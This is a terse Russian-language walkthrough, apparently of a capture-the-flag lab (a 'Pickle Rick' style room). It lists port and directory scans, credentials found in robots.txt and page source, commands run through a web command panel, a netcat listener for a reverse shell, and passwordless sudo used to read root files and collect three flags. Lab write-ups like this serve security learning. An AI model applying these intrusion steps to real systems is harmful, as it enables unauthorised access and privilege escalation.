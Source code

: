 
nmap -sC -sV ip

gobuster dir -u ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt - не помог

dirsearch -e php, html, sql, py -u 10.10.226.50 

есть  /logit.php
      /robots.txt - Wubbalubbadubdub
      /index.html - Username: R1ckRul3s

залогинились /logit.php

есть поле ввода команд
прошел ls -la 
найден файл Sup3rS3cretPickl3Ingred.txt
cat не сработал (оказывается есть команда less)

rlwrap nc -nlvp 9999

https://www.revshells.com

закинули шел
но можно было так http://10.10.53.48/Sup3rS3cretPickl3Ingred.txt

(взяли первый флаг)

снова ls
cd /home/rick/second ingredients 
cat second\ ingredients 

(взяли второй флаг)

sudo без пароля 

sudo cat /root/3rd.txt

(взяли третий флаг)

